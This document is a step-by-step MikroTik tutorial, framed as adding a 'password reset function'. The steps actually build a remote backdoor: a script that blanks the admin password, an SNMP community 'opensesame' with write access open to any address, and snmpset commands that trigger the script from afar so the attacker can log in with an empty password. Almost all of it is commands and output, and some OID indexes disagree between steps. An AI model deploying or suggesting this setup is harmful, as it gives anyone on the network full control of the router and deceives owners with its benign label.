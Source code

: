 ### Tutorial: Adding a Password Reset Function to MikroTik OS

In this tutorial, we will add a password reset function to MikroTik OS using a MikroTik script. We will create a script called "password reset" that sets the admin password to an empty string. We will then enable SNMP write access with the community string "opensesame" and verify that the SNMP service is running. Finally, we will use `snmpwalk` to query the scripts and `snmpset` to run the password reset script over SNMP.

#### Step 1: Create the Password Reset Script

1. **Access the MikroTik CLI**:
   - You can access the MikroTik CLI via SSH, Telnet, or the Winbox terminal. For SSH, use a terminal application like PuTTY or the built-in terminal on your operating system.
   - Connect to your MikroTik router using its IP address and login credentials.

   ```sh
   ssh admin@<router_ip_address>
   ```

2. **Create the Script**:
   - Use the following command to create a new script named "password reset" that changes the password of the "admin" user to an empty password.

   ```sh
   /system script add name="password reset" source="/user set admin password=\"\""
   ```

3. **Verify the Script**:
   - Verify that the script has been created correctly by listing all scripts.

   ```sh
   /system script print
   ```

   Output:
   ```
   Flags: I - invalid
    0   name="password reset" owner="admin" policy=ftp,reboot,read,write,policy,test,password,sniff,sensitive,romon
     dont-require-permissions=no last-started=jan/01/2002 17:51:05 run-count=1 source=/user set admin password=""
   ```

#### Step 2: Enable SNMP Write Access

1. **Enable SNMP**:
   - Enable the SNMP service on the router.

   ```sh
   /snmp set enabled=yes
   ```

2. **Configure SNMP Community**:
   - Add an SNMP community "opensesame" with write access.

   ```sh
   /snmp community add name=opensesame addresses=0.0.0.0/0 write-access=yes
   ```

3. **Verify SNMP Configuration**:
   - Verify that the SNMP service and community have been configured correctly.

   ```sh
   /snmp print
   /snmp community print
   ```

   Output:
   ```
   [admin@MikroTik] > /snmp print
            enabled: yes
            contact:
           location:
          engine-id:
        trap-target:
     trap-community: public
       trap-version: 1
     trap-generators: temp-exception
   [admin@MikroTik] > /snmp community print
   Flags: * - default, X - disabled
    #    NAME                ADDRESSES                                                 SECURITY   READ-ACCESS WRITE-ACCESS
    0 *  public              ::/0                                                      none       yes         no
    1    opensesame          0.0.0.0/0                                                 none       yes         yes
   ```

#### Step 3: Query Scripts Using SNMP

1. **Install SNMP Tools**:
   - Ensure that you have SNMP tools installed on your system. On Debian-based systems, you can install them using:

   ```sh
   sudo apt-get install snmp
   ```

2. **Use `snmpwalk` to Query Scripts**:
   - Use the `snmpwalk` command to query the OID `1.3.6.1.4.1.14988.1.1.8` to list the scripts.

   ```sh
   snmpwalk -v 2c -c opensesame <router_ip_address> 1.3.6.1.4.1.14988.1.1.8
   ```

   - This command will list the scripts available on the MikroTik router.

   Output:
   ```
   SNMPv2-SMI::enterprises.14988.1.1.8.1.1.2.4 = STRING: "password reset"
   SNMPv2-SMI::enterprises.14988.1.1.8.1.1.3.4 = INTEGER: 0
   ```

#### Step 4: Run the Script Using SNMP

1. **Use `snmpset` to Run the Script**:
   - Use the `snmpset` command to run the "password reset" script. Replace `<router_ip_address>` with the IP address of your MikroTik router.

   ```sh
   snmpset -v 2c -c opensesame <router_ip_address> 1.3.6.1.4.1.14988.1.1.8.1.1.3.3 i 1
   ```

   Output:

   ```
   SNMPv2-SMI::enterprises.14988.1.1.8.1.1.3.4 = INTEGER: 1
   ```

   - This command will execute the "password reset" script, setting the admin password to an empty string. 
   You can now authenticate to the router with `ssh admin@router_ip_address`.

### Summary

By following these steps, you can add a password reset function to MikroTik OS using a MikroTik script. You will also enable SNMP write access, verify the SNMP service, query the scripts using `snmpwalk`, and run the script using `snmpset`. This guide assumes you have administrative access to the router and are familiar with basic networking concepts. If you encounter any issues, refer to the MikroTik documentation or seek assistance from MikroTik support or community forums.

---

**Author**: Hacker Fantastic  
**Date**: April 17, 2025  
**Website**: [https://hacker.house](https://hacker.house)